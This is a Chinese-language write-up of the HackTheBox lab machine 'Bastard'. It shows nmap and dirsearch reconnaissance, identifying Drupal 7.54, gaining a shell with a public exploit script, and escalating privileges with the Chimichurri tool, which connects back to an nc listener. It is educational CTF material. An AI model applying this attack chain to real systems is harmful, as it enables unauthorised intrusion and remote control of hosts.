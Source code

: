 ```yaml
---
title: Hackthebox::Bastard
date: 2021/12/12
tags: [walkthrough, 渗透测试]
categories: 渗透测试
banner_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
index_img: https://herozql.oss-cn-beijing.aliyuncs.com/bg_pic/bing_13.jpg
---
```


# Bastard

- **Bastard是hackthebox上一台难度中等的windows靶机**

### 信息收集

- nmap进行端口扫描，首先扫描前100个容易受到攻击的端口

![0.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.9.png)

- nmap进行更细致的扫描

![1](https://herozql.oss-cn-beijing.aliyuncs.com/main/1.png)

- nmap扫描是否存在漏洞

![2](https://herozql.oss-cn-beijing.aliyuncs.com/main/2.png)

- 至此，nmap向我们反馈了有用的信息：

```
80 http
135 msrpc
49154 open unknow
```

- 登录80端口，查看网页信息

![0.1](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.1.png)

- 我们从网页底部可以知道这个CMS是drupal系统，但是我们不知道他的具体版本
- 接下来使用dirsearch进行目录扫描，我尝试使用gobuster 进行扫描，但是结果并能使人满意，可能这次并不适用于用gobuster扫描，有时候最好同时使用这两个工具进行扫描，并且更换不同的字典然后进行多次扫描，可能会费时费力，但是收集有用的信息对我们来说是非常重要的

``` 
dirsearch -u http://10.129.189.21 -x 403 -t 200
```

![0.15](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.15.png)

- 我们发现了许多文件，其中CHAGELOG.txt文件中有这CMS的版本信息，我们可以查看到

![0.2](https://herozql.oss-cn-beijing.aliyuncs.com/main/0.2.png)

- 当然，我也参考了别人的walkthrough，他们扫描出了/rest 文件夹，我试着使用它们的字典以及工具进行扫描，扫描时间实在太长，而且我们完全可以不使用 /rest 文件就能达到我们的渗透目的
- 接下来使用searchsploit 对 drupal 7.54 版本进行扫描

![3.9](https://herozql.oss-cn-beijing.aliyuncs.com/main/3.9.png)



### 漏洞利用

- 使用 44449.rb 脚本

![4](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.png)

![5](https://herozql.oss-cn-beijing.aliyuncs.com/main/5.png)

![4.5](https://herozql.oss-cn-beijing.aliyuncs.com/main/4.5.png)

- 我们得到了一个shell，这是我在参考了许多walkthrough后得到的最快捷的方式

- 查看系统信息

![6](https://herozql.oss-cn-beijing.aliyuncs.com/main/6.png)



### 权限提升

- 下载使用[Chimichurri](https://github.com/mxrmiss/Chimichurri)脚本

![7](https://herozql.oss-cn-beijing.aliyuncs.com/main/7.png)

- 在windows靶机中接收脚本文件

![8](https://herozql.oss-cn-beijing.aliyuncs.com/main/8.png)

- 本地机器nc监听端口
- 靶机上使用脚本文件

```
chimichurri.exe ip port
```

- 查看之前监听的端口(可能一次不一会成功，需要多试几次)

![9](https://herozql.oss-cn-beijing.aliyuncs.com/main/9.png)

- 结束